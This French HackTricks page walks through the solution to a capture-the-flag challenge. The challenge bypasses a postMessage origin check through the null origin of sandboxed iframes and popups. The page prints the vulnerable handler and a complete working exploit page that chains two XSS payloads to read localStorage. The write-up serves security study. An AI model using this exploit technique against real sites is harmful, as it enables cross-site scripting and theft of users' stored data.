 # Contournement de SOP avec des iframes - 1

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au [dépôt hacktricks](https://github.com/carlospolop/hacktricks) et au [dépôt hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Iframes dans SOP-1

Dans ce [**challenge**](https://github.com/terjanq/same-origin-xss) créé par [**NDevTK**](https://github.com/NDevTK) et [**Terjanq**](https://github.com/terjanq), vous devez exploiter une XSS dans le code.
```javascript
const identifier = '4a600cd2d4f9aa1cfb5aa786';
onmessage = e => {
  const data = e.data;
  if (e.origin !== window.origin && data.identifier !== identifier) return;
  if (data.type === 'render') {
    renderContainer.innerHTML = data.body;
  }
}
```
Le problème principal est que la [**page principale**](https://so-xss.terjanq.me) utilise DomPurify pour envoyer les données `data.body`, donc pour envoyer vos propres données html à ce code, vous devez **contourner** `e.origin !== window.origin`.

Voyons la solution qu'ils proposent.

### Contournement SOP 1 (e.origin === null)

Lorsque `//example.org` est intégré dans un **iframe sandboxé**, l'**origine** de la page sera **`null`**, c'est-à-dire que **`window.origin === null`**. Ainsi, en intégrant simplement l'iframe via `<iframe sandbox="allow-scripts" src="https://so-xss.terjanq.me/iframe.php">`, nous pourrions **forcer l'origine `null`**.

Si la page était **intégrable**, vous pourriez contourner cette protection de cette manière (les cookies pourraient également devoir être définis sur `SameSite=None`).

### Contournement SOP 2 (window.origin === null)

Le fait moins connu est que lorsque la valeur de **sandbox `allow-popups` est définie**, la **popup ouverte** héritera de tous les **attributs sandboxés** sauf si `allow-popups-to-escape-sandbox` est défini.\
Ainsi, l'ouverture d'une **popup** à partir d'une **origine nulle** rendra également **`window.origin` à l'intérieur de la popup nul**.

### Solution du défi

Par conséquent, pour ce défi, on pourrait **créer** un **iframe**, **ouvrir une popup** vers la page avec le gestionnaire de code XSS vulnérable (`/iframe.php`), car `window.origin === e.origin` car les deux sont `null`, il est possible d'**envoyer une charge utile qui exploitera le XSS**.

Cette **charge utile** obtiendra l'**identifiant** et enverra un **XSS** **retour à la page supérieure** (la page qui a ouvert la popup), **qui** **changera de localisation** vers le **vulnérable** `/iframe.php`. Comme l'identifiant est connu, il n'importe pas que la condition `window.origin === e.origin` ne soit pas satisfaite (rappelez-vous, l'origine est la **popup** de l'iframe qui a une **origine** **`null`**) car `data.identifier === identifier`. Ensuite, le **XSS se déclenchera à nouveau**, cette fois dans la bonne origine.
```html
<body>
  <script>
    f = document.createElement('iframe');
    
    // Needed flags
    f.sandbox = 'allow-scripts allow-popups allow-top-navigation';
    
    // Second communication with /iframe.php (this is the top page relocated)
    // This will execute the alert in the correct origin
    const payload = `x=opener.top;opener.postMessage(1,'*');setTimeout(()=>{
      x.postMessage({type:'render',identifier,body:'<img/src/onerror=alert(localStorage.html)>'},'*');
    },1000);`.replaceAll('\n',' ');
   
   // Initial communication
   // Open /iframe.php in a popup, both iframes and popup will have "null" as origin
   // Then, bypass window.origin === e.origin to steal the identifier and communicate
   // with the top with the second XSS payload
    f.srcdoc = `
    <h1>Click me!</h1>
    <script>
      onclick = e => {
        let w = open('https://so-xss.terjanq.me/iframe.php');
        onmessage = e => top.location = 'https://so-xss.terjanq.me/iframe.php';
        setTimeout(_ => {
          w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*')
        }, 1000);
      };
    <\/script>
    `
    document.body.appendChild(f);
  </script>
</body>
```
<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une entreprise de **cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au [dépôt hacktricks](https://github.com/carlospolop/hacktricks) et au [dépôt hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
